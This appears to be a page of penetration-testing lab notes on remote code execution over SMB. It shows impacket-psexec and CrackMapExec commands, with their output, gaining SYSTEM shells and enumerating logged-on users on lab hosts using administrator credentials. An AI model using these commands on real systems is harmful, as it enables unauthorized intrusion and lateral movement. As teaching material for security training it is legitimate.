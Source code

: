 #### Remote Code Execution (RCE)
* [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec) is a tool that lets us execute processes on other systems, complete with full interactivity for console applications, without having to install client software manually
* Has a Windows service image inside its executable
* Takes this service and deploys it to the admin$ share (by default) on the remote machine
* Then uses the DCE/RPC interface over SMB to access the Windows Service Control Manager API
* Starts the PSExec service on the remote machine
* PSExec service then creates a [named pipe](https://docs.microsoft.com/en-us/windows/win32/ipc/named-pipes) that can send commands to the system

#### Impacket PsExec
```sh
impacket-psexec administrator:'Password123!'@10.10.110.17

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.10.110.17.....
[*] Found writable share ADMIN$
[*] Uploading file EHtJXgng.exe
[*] Opening SVCManager on 10.10.110.17.....
[*] Creating service nbAc on 10.10.110.17.....
[*] Starting service nbAc.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.19041.1415]
(c) Microsoft Corporation. All rights reserved.


C:\Windows\system32>whoami && hostname

nt authority\system
WIN7BOX
```

#### CrackMapExec
```sh
crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec

SMB         10.10.110.17 445    WIN7BOX  [*] Windows 10.0 Build 19041 (name:WIN7BOX) (domain:.) (signing:False) (SMBv1:False)
SMB         10.10.110.17 445    WIN7BOX  [+] .\Administrator:Password123! (Pwn3d!)
SMB         10.10.110.17 445    WIN7BOX  [+] Executed command via smbexec
SMB         10.10.110.17 445    WIN7BOX  nt authority\system
```

**Note:** If the `--exec-method` is not defined, CrackMapExec will try to execute the atexec method, if it fails you can try to specify the `--exec-method` smbexec.

#### Enumerating Logged-on Users
```sh
crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users

SMB         10.10.110.17 445    WIN7BOX  [*] Windows 10.0 Build 18362 (name:WIN7BOX) (domain:WIN7BOX) (signing:False) (SMBv1:False)
SMB         10.10.110.17 445    WIN7BOX  [+] WIN7BOX\administrator:Password123! (Pwn3d!)
SMB         10.10.110.17 445    WIN7BOX  [+] Enumerated loggedon users
SMB         10.10.110.17 445    WIN7BOX  WIN7BOX\Administrator             logon_server: WIN7BOX
SMB         10.10.110.17 445    WIN7BOX  WIN7BOX\jurena                    logon_server: WIN7BOX
SMB         10.10.110.21 445    WIN10BOX  [*] Windows 10.0 Build 19041 (name:WIN10BOX) (domain:WIN10BOX) (signing:False) (SMBv1:False)
SMB         10.10.110.21 445    WIN10BOX  [+] WIN10BOX\Administrator:Password123! (Pwn3d!)
SMB         10.10.110.21 445    WIN10BOX  [+] Enumerated loggedon users
SMB         10.10.110.21 445    WIN10BOX  WIN10BOX\demouser                logon_server: WIN10BOX
```
